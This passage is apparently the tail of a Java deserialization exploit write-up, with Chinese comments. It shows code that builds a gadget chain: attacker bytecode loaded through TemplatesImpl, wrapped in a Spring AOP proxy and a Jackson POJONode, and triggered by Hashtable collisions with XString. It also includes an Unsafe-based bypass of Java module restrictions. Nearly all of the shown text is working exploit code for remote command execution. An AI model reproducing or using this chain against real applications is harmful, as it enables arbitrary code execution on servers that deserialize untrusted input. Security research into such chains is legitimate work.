        byte[] classBytes = cc.toBytecode();
        CtClass cc1 = classPool.makeClass("Evil1");
        cc1.makeClassInitializer().insertBefore(cmd);
        byte[] classBytes1 = cc1.toBytecode();
        byte[][] code = new byte[][]{classBytes,classBytes1};

        //构造 TemplatesImpl 实例
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Object impl = getObject(clazz);
        setFieldValue(impl,"_name","fupanc");
        setFieldValue(impl, "_tfactory", getObject(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl")));
        setFieldValue(impl,"_bytecodes",code);
        setFieldValue(impl,"_transletIndex",0);//0或者1都可以

        //设置代理
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(impl);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getDeclaredConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        Object proxyAop = constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Templates.class},(InvocationHandler) proxyAop);

        POJONode node = new POJONode(proxy);

        //获取XString类实例
        Class clazz123 = Class.forName("com.sun.org.apache.xpath.internal.objects.XString");
        Constructor constructor123 = clazz123.getConstructor(String.class);
        constructor123.setAccessible(true);
        Object xString = constructor123.newInstance("111");
        Hashtable hash = new Hashtable();
        HashMap hashMap0 = new HashMap();
        hashMap0.put("zZ",xString);
        hashMap0.put("yy",node);
        HashMap hashMap1 = new HashMap();
        hashMap1.put("zZ",node);
        hashMap1.put("yy",xString);
        hash.put(hashMap0,"1");
        hash.put(hashMap1,"2");

    }
    private static void patchModule(Class clazz) throws Exception {
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get(null);
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
        Module targetModule = Object.class.getModule();
        unsafe.getAndSetObject(clazz, offset,targetModule);
    }

    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    private static Object getObject(Class clazz) throws Exception{
        Constructor constructor = clazz.getConstructor();
        constructor.setAccessible(true);
        Object impl = constructor.newInstance();
        return impl;
    }
}
```


